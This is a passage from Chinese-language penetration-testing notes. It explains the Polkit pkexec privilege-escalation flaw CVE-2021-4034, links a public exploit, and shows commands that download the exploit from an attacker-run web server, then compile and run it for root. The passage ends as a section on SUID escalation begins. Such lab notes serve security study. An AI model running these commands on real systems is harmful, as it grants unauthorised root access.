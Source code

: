 **漏洞原理**

Polkit（PolicyKit）是类Unix系统中一个应用程序级别的工具集，通过定义和审核权限规则，实现不同优先级进程间的通讯。pkexec是Polkit开源应用框架的一部分，可以使授权非特权用户根据定义的策略以特权用户的身份执行命令。

### 3.6.2 利用复现

漏洞利用工具：https://github.com/berdav/CVE-2021-4034

下载漏洞利用工具，这里现将工具压缩包下载值kali，在kali上用python开启web服务，来让被攻击主机下载。

wget http://192.168.219.134:8000/CVE-2021-4034-main.zip

压缩，编译，利用。

```shell
unzip CVE-2021-4034-main.zip
cd CVE-2021-4034-main
make
./cve-2021-4034
```

![image-20231120211346052](assets/image-20231120211346052.png)

# 0x04 SUID提权

SUID (Set owner User ID up on execution) 是给予文件的一个特殊类型的文件权限。

在 Linux/Unix中，当一个程序运行的时候， 程序将从登录用户处继承权限。SUID被定义为给予一个用户临时的（程序/文件）所有者的权限来运行一个程序/文件。用户在执行程序/文件/命令的时候，将获取文件所有者的权限以及所有者的UID和GID。

如果root给一个程序赋予了SUID权限，则普通用户在执行该程序过程中，是root权限。

suid权限仅对二进制程序有效（binary program）(系统中的一些命令），不能用在脚本上（script）。

 执行者对于该程序需要具有x的可执行权限；

本权限仅在执行该程序的过程中有效（run-time）；

执行者将具有该程序拥有者的权限。

## 4.1. SUID设置
